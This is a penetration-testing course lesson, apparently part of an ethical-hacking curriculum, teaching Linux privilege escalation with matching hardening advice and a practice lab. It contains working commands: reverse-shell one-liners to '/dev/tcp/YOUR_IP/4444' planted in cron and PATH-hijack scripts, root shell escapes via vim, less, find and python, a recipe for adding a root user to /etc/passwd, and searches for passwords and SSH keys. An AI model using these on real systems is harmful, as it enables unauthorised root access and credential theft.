

# Linux privilege escalation

Path 14.6 introduced privilege escalation as a preview. This lesson delivers the full, systematic methodology — the exact skillset that turns a low-privilege foothold into root access, and a cornerstone of Ishfaq's own recent CPENT practical work.

## Why privilege escalation matters so much

Recall Path 14.6's kill chain logic — initial access is rarely the full story. Most real footholds (a web shell from Path 11.7, an exploited service from Path 14.5) land you as a low-privilege user. **Privilege escalation (privesc)** is the systematic process of finding a path from that limited foothold to full administrative (root) control.

## The systematic enumeration-first approach

Before trying any specific technique, **enumerate everything** — privesc is fundamentally a search problem, not a single trick:

```bash
# The single most valuable habit: run a proven enumeration script FIRST
# LinPEAS is the industry-standard tool for this:
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas-output.txt
```

LinPEAS systematically checks dozens of categories automatically — but understanding what it's actually looking for (rather than treating it as a black box) is what separates genuine skill from button-pushing.

## The main privesc vectors, one by one

### 1. SUID/SGID binaries

Recall Path 03.10's introduction to SUID. A SUID binary runs with the **file owner's** privileges, not the user executing it — if that owner is root and the binary can be manipulated to execute arbitrary commands, that's an escalation path.

```bash
# Find all SUID binaries:
find / -perm -4000 -type f 2>/dev/null

# Check against GTFOBins — a curated list of standard Linux binaries
# with documented privesc techniques when SUID:
# https://gtfobins.github.io/
```

```bash
# Example: if 'find' itself is SUID (unusual, but illustrative):
find . -exec /bin/sh -p \; -quit
# The -p flag preserves the elevated privilege in the spawned shell
```

**GTFOBins** is the essential reference here — nearly every standard Linux binary (`vim`, `less`, `cp`, `find`, `python`) has a documented technique for privilege escalation or restriction bypass *if* it's been misconfigured with SUID or excessive sudo permissions.

### 2. Sudo misconfigurations

```bash
# Check what the current user can run as another user (often root) via sudo:
sudo -l
```

```
# Example output revealing a dangerous misconfiguration:
User kali may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
```

If `vim` can be run as root via sudo with no password, GTFOBins shows the exact escalation:

```bash
sudo vim -c ':!/bin/sh'
# Vim spawns a shell — inheriting root privileges from the sudo context
```

### 3. Cron jobs running as root

Recall Path 03.11's cron lesson — a scheduled job running as root that executes a script **writable by a lower-privilege user** is a classic escalation path:

```bash
# Check system-wide cron jobs:
cat /etc/crontab
ls -la /etc/cron.d/

# If a root cron job runs a script you can WRITE to:
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' >> /path/to/writable-script.sh
# Wait for the cron job to fire, catch the reverse shell on your listener
```

### 4. Kernel exploits

If the kernel version has a known, unpatched local privilege escalation CVE:

```bash
uname -a
# Cross-reference the exact version against searchsploit (Path 14.4):
searchsploit "linux kernel 5.4"
```

Kernel exploits can be effective but carry genuine **stability risk** (a bad exploit attempt can crash the system) — professional practice (Path 14.5's discipline) means preferring safer, more surgical techniques first, reserving kernel exploits for when nothing else works and the RoE explicitly tolerates the risk.

### 5. Weak file permissions on sensitive files

```bash
# Is /etc/passwd or /etc/shadow writable by your current user?
ls -la /etc/passwd /etc/shadow

# If /etc/passwd is writable, you can add a new root-equivalent user directly:
openssl passwd -1 -salt xyz mynewpassword
# Append: newroot:GENERATED_HASH:0:0:root:/root:/bin/bash  to /etc/passwd
```

### 6. Credentials found lying around

Recall Path 14.6's situational awareness commands — a huge fraction of real privesc paths are simply **found credentials**, not exotic technical exploits:

```bash
# Search broadly for anything password/key-related:
grep -r "password" /etc/ 2>/dev/null
find / -name "*.bak" -o -name "id_rsa" -o -name "*.conf" 2>/dev/null
cat ~/.bash_history
```

Config files, backup files, shell history, and `.git` directories left behind (recall Path 11.3's exposed-file recon habit, now applied locally) frequently contain plaintext passwords or private keys directly usable for lateral movement or escalation.

### 7. Path hijacking

If a script (especially one running with elevated privileges via cron or sudo) calls a command **without specifying its full path**, and your current, lower-privileged `$PATH` includes a directory writable by you that comes *before* the real binary's location, you can plant a malicious binary with the same name:

```bash
# If a root cron script calls simply "backup" instead of "/usr/bin/backup",
# and you can write to a directory earlier in root's $PATH:
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/YOUR_IP/4444 0>&1' > /writable/path/backup
chmod +x /writable/path/backup
```

### 8. Linux capabilities — SUID's more granular cousin

Recall Path 03.10's brief mention of capabilities. Where SUID grants a binary *full* root privileges when it runs, **capabilities** grant a much more granular, specific subset — but a misconfigured capability can still be exactly as exploitable:

```bash
# Find binaries with capabilities set:
getcap -r / 2>/dev/null
```

```
# Example dangerous finding:
/usr/bin/python3 = cap_setuid+ep
```

`cap_setuid` lets a binary change its effective user ID — meaning Python itself can be used to spawn a root shell directly, exactly like a SUID Python binary would, just via a narrower, capability-specific mechanism:

```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

GTFOBins documents capability-based escalation techniques alongside its SUID entries — always check both when a binary shows up in either enumeration pass.

### 9. NFS misconfiguration — no_root_squash

An often-overlooked network-adjacent vector: if a Linux host exports an NFS share with the `no_root_squash` option set, a client machine mounting that share can create files as root *on the client side*, and those files retain root ownership when accessed from the server — meaning an attacker with root on any machine permitted to mount the share can plant a SUID-root binary that executes as genuine root on the target server itself.

```bash
# Check for exported shares with no_root_squash from the target:
showmount -e target-ip
cat /etc/exports    # if you can read it directly
```

This is exactly the kind of vector that rewards the broad situational-awareness habit from Path 14.6 — network configuration details easy to overlook when focused purely on local binary permissions.

## A systematic privesc checklist



## The defender's view — hardening against these exact techniques

- **Minimise SUID binaries** — audit and remove SUID bits from anything that doesn't genuinely need them.
- **Principle of least privilege in sudoers** — grant only the specific commands actually needed, never blanket `NOPASSWD: ALL`.
- **Secure cron scripts** — ensure scripts run by privileged cron jobs aren't writable by lower-privileged users.
- **Patch kernels promptly** (echoing Path 10.7's update discipline).
- **Never store plaintext credentials** in config files, scripts, or shell history — use proper secrets management.
- **Use absolute paths** in privileged scripts to prevent PATH hijacking.

## 🧪 Lab — Full privesc practice on a vulnerable VM

Deliberately vulnerable VMs designed specifically for privesc practice:

```bash
# Download a "vulnhub"-style intentionally vulnerable VM, or use TryHackMe/HackTheBox
# rooms specifically tagged "privilege escalation" — many are free.

# On your practice VM, after gaining an initial low-privilege shell:
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > /tmp/results.txt

# Review the output methodically, cross-referencing any SUID/sudo findings
# against GTFOBins before attempting the documented technique.
```

Work through at least 2-3 different vulnerable VMs, deliberately trying to identify the *specific* privesc vector (SUID, sudo, cron, kernel, or credentials) each one uses before reaching for LinPEAS's output — this builds genuine pattern-recognition rather than tool dependency.

:::challenge Test yourself
`sudo -l` shows that your current user can run `/usr/bin/less` as root with `NOPASSWD`. Using GTFOBins' documented technique for `less`, how would you likely escalate to a root shell?

<details><summary>Show answer</summary>GTFOBins documents that <code>less</code>, when run with elevated privileges, can spawn a shell via its built-in command execution feature — typically: <code>sudo less /etc/profile</code> then, within the `less` pager, typing <code>!/bin/sh</code> (many pagers support executing shell commands this way), which spawns a shell inheriting <code>less</code>'s root privileges. Always check <a href="https://gtfobins.github.io/">GTFOBins</a> directly for the exact, current, correct syntax for any specific binary before attempting it.</details>
:::

## Key terms

- **Privilege escalation (privesc)** — moving from a low-privilege foothold to higher (ideally root) access.
- **LinPEAS** — the industry-standard automated Linux privesc enumeration script.
- **GTFOBins** — the curated reference for privesc/bypass techniques via standard Unix binaries.
- **SUID/SGID** — file permission bits causing a binary to run with the file owner's/group's privileges.
- **Path hijacking** — exploiting unqualified command references in privileged scripts via a manipulated `$PATH`.

## Recap

- Privesc is fundamentally systematic enumeration across several known vector categories, not a single trick.
- SUID binaries, sudo misconfigurations, cron jobs, kernel exploits, stored credentials, and PATH hijacking are the main vectors.
- GTFOBins and LinPEAS are the two indispensable tools/references for this entire discipline.
- Kernel exploits carry real stability risk — prefer safer, surgical techniques first in professional engagements.
- Defensive hardening directly mirrors each offensive technique — least privilege, prompt patching, no plaintext credentials.

???refs
- [GTFOBins](https://gtfobins.github.io/) — the essential reference for binary-based privesc/bypass techniques.
- [PEASS-ng (LinPEAS/WinPEAS)](https://github.com/peass-ng/PEASS-ng) — the standard automated enumeration toolkit.
- [HackTricks — Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) — an extremely thorough, continuously-updated technique reference.
- [Payatu — Linux Privilege Escalation Guide](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) — accessible, well-structured walkthrough.
???

**Next up →** [Windows privilege escalation](#/lesson/16-advanced/windows-privesc)
